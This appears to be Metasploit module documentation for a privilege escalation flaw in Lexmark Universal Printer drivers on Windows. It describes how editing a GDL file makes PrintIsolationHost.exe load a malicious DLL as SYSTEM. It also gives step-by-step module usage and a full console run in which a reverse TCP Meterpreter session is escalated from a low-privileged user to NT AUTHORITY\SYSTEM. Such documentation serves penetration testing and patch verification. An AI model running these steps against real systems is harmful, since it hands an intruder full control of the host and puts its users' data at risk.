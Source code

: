 ## Vulnerable Application

Various Lexmark Universal Printer drivers as listed at [advisory TE953](http://support.lexmark.com/index?page=content&id=TE953)
allow low-privileged authenicated users to elevate their privileges to `SYSTEM` on affected Windows systems by modifying
the XML file at `C:\\ProgramData\\Lexmark Universal v2\\Universal Color Laser.gdl` to replace the DLL path
to `LMUD1OUE.DLL` with a malicious DLL path.

When `C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\prnmngr.vbs` is then used to add the printer
to the affected system, `PrintIsolationHost.exe`, a Windows process running as `NT AUTHORITY\SYSTEM`,
will inspect the ``C:\\ProgramData\\Lexmark Universal v2\\Universal Color Laser.gdl` file and will load the
malicious DLL from the path specified in the file, which will result in the malicious DLL executing as `NT AUTHORITY\SYSTEM`.

Once this module is finished, it will use the `prnmngr.vbs` script to remove the printer it added.

## Verification Steps

1. Install a vulnerable Lexmark driver
2. Start `msfconsole`
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/lexmark_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as `SYSTEM`.

## Options

## Scenarios

### Lexmark Universal Print Driver v2.10.0.5

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:50356) at 2021-08-04 16:01:23 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use lexmark_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/lexmark_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/lexmark_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/lexmark_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Lexmark GDL file is present
[*] Adding printer dnvCihT...
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:50382) at 2021-08-04 16:03:23 -0400
[*] Deleting printer dnvCihT

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
